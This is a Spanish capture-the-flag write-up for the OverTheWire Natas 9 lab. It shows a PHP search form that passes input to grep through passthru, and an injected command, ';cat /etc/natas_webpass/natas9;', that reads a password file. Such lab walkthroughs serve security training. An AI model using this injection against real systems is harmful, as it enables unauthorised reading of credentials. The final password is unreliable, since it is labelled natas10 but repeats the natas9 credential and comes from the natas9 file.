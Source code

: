 # Natas 9

#### URL: http://natas9.natas.labs.overthewire.org/

#### Credenciales: natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t

Lo que introduzcamos en la entrada de busqueda sera el argumento del comando grep.

``` php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

Podemos introducir nuevos comandos simplemente usando ';COMANDO;', por ejemplo: 
``` bash
> grep -i ;echo hello there; dictionary.txt
Modo de empleo: grep [OPCIÓN]... PATRONES [FICHERO]...
Pruebe 'grep --help' para más información.
hello there
zsh: command not found: dictionary.txt
```

Como se puede observar se manda a la salida estandar el resultado de nuestro comando, y se manda al ERROR estandar el grep roto. Pero la funcion passthru no esta devolviendo el error estandar asi que veremos una salida limpia.

Podemos entonces introducir `;cat /etc/natas_webpass/natas9;` y obtener la contraseña:

![2025-03-19-214107_610x234_scrot](https://github.com/user-attachments/assets/eb22175d-4712-4561-86b5-1b268dfd367d)

`natas10:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t`



